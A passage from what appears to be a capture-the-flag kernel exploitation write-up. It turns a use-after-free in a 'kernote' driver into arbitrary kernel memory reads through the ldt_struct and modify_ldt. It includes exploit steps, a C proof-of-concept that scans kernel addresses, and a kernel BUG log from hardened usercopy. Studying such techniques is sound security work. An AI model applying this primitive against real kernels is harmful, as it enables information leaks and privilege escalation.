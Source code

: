 ```c
	……

	old_ldt       = mm->context.ldt;
	old_nr_entries = old_ldt ? old_ldt->nr_entries : 0;
	new_nr_entries = max(ldt_info.entry_number + 1, old_nr_entries);

	error = -ENOMEM;
	new_ldt = alloc_ldt_struct(new_nr_entries);

  ……
  
	install_ldt(mm, new_ldt);
	unmap_ldt_struct(mm, old_ldt);
	free_ldt_struct(old_ldt);
	error = 0;

out_unlock:
	up_write(&mm->context.ldt_usr_sem);
out:
	return error;
}
```

Then we can copy from arbitrary address with the following steps:

* Free a heap chunk in kmalloc-32
* Use write_ldt to get the freed chunk
* Use the uaf vulnerability to modify the entries pointer of the ldt_struct
* Call read_ldt to call copy_to_user on arbitrary address

Because copy_to_user won't panic the kernel when accessing wrong address, we can start to search from 0xffffffff80000000 by 0x200000. The poc is very simple

```c
fd=open("/dev/kernote",O_RDONLY);
ioctl(fd,KERN_ADDNOTE,0);
ioctl(fd,KERN_SELECTNOTE,0);
ioctl(fd,KERN_DELNOTE,0);
syscall(SYS_modify_ldt, 1, &u_desc,sizeof(u_desc));
addr=0xffffffff80000000;
while(1){
        ioctl(fd,KERN_EDITNOTE,addr);
        ret=syscall(SYS_modify_ldt, 0, target,8);
        if(ret<0){
            addr+=0x200000;
            continue;
        }
  			//found!
}
```

Run the poc and we can get

```shell
/ $ ./poc
[    4.979960] usercopy: Kernel memory exposure attempt detected from kernel text (offset 0, size 8)!
[    4.990426] ------------[ cut here ]------------
[    4.995110] kernel BUG at mm/usercopy.c:99!
[    4.998941] invalid opcode: 0000 [#1] SMP PTI
```
